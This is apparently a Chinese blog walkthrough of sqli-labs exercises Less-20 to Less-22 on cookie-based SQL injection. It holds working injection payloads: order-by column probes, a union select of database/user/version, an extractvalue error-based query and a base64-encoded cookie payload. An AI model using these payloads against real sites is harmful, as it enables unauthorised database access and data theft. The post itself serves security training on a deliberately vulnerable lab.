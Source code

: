 ```yaml
---
layout: post
title: SQL注入（十一）
desc: ""
keywords: ""
date: 2016-11-12
categories: []
tags: []
---
```


<h2>Less-20</h2>

基于cookie的注入

<h3>概述</h3>

打开后发现是一个登录界面，在登录之后会保存下cookie，当cookie保存时，刷新页面直接能登陆进来，我们可以获取用户名，密码，ID等信息。

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_right.png" />

所谓基于cookie的注入就是通过修改cookie的值，等刷新页面的时候，网站会带入cookie的值进行查找，以此来实现注入

要修改cookie的值，可以祭出神器Firebug

<h3>测试</h3>

&nbsp;

在把cookie的值改为 uname=admin' 的时候报错，存在注入。我们可以猜出闭合的方式，构造语句，方式和简单的Get注入类似

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_test.png" />

<strong>注意这里修改的时候要更改下cookie过期的时间，否则会被删除</strong>

<h3>Payload</h3>

<pre class="lang:tsql decode:true">admin' order by 1,2,3,4 #
admin' order by 1,2,3 #</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_payload2.png" />

<pre class="lang:tsql decode:true">' union select 1,2,3 #</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_payload1.png" />

<pre class="lang:tsql decode:true">' union select database(),user(),version() #</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_payload3.png" />

<pre class="lang:tsql decode:true">admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #</pre>

<h2>Less-21</h2>

同理，不过这次cookie进行了base64加密

<pre class="lang:tsql decode:true" title="Payload">JykgdW5pb24gc2VsZWN0IGRhdGFiYXNlKCksdXNlcigpLHZlcnNpb24oKSAjIA==

// ') union select database(),user(),version() #</pre>

<h2>Less-22</h2>

同理，单引号变双引号

&nbsp;